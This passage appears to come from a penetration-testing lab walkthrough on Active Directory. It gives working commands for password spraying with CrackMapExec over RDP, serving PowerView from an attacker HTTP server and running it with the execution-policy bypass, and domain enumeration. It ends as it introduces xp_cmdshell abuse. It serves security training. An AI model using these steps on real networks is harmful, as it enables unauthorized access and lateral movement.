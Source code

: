 ## Task 3: Spray Cracked Password into Network using CrackMapExec.
Using CrackMapExec for password spraying involves leveraging its capabilities to automate the process. For instance, if "cupcake" is a cracked password, CME can be used to test this password against numerous user accounts and services across a network. This approach helps identify other accounts that may be using the same password, facilitating further penetration testing or security assessments.

-  we will be focusing on RDP. However, you can explore and check other services.
1. to perform password spraying.
	- `` cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake"``  
2. the spray completion we find that user **Mark** is using the same password **cupcake** on host **10.10.1.40**. We will now try to connect to RDP as user **mark**.
	-  ``user:mark password:cupcake``
3. connecting RDP using  ``Remmina``
	- enter IP address ``10.10.1.40``
	- Enter RDP authentication credentials as
		- ``user:mark password:cupcake``
## Task 4: Perform Post-Enumeration using PowerView
PowerView is a PowerShell tool designed for network and AD enumeration. It helps security professionals gather detailed information about user accounts, groups, computers, and domain trusts. PowerView is used to identify potential security weaknesses and misconfigurations in an AD environment. It is commonly employed in penetration testing and red team operations.


1.  move into the ADtools folder.
	- ``cd /root/ADtools`` 
2. For enumeration purposes, we will utilize the **PowerView.ps1** script. We will host a Python server on our attacker machine to share this script, and then we will download it onto a Windows 11 machine (Mark) using an RDP session.
	- ``python3 -m http.server ``
3. After starting the HTTP server, return to Remmina where our RDP session is active. Then, open the **Firefox** browser and navigate to the URL **http://10.10.1.13:8000/PowerView.ps1** to automatically download the **PowerView.ps1** script. Close the **Firefox** browser window.
4. open powershell
	 -  `` cd Downloads``
	 - run  ``powershell -EP Bypass``
	 - ``. .\PowerView.ps1``
	 - This command will display all the information related to computers in AD. It lists all computer objects in AD
		 - ``Get-NetComputer``
		 - ``Get-NetGroup``
		 - `` Get-NetUser``
5.   During user enumeration, we found a new user **SQL_srv**, who has some high privileges and could be useful for further attacks. In the next task we will be attacking the **SQL_srv** user who has SQL service running on it.
## Task 5: Perform Attack on MSSQL service
**xp_cmdshell** is a SQL server stored procedure enabling command shell execution. Misconfigured xp_cmdshell can lead to arbitrary command execution, data exfiltration, and potential network compromise, posing significant security risks. Proper configuration and security measures are crucial to mitigate these risks.

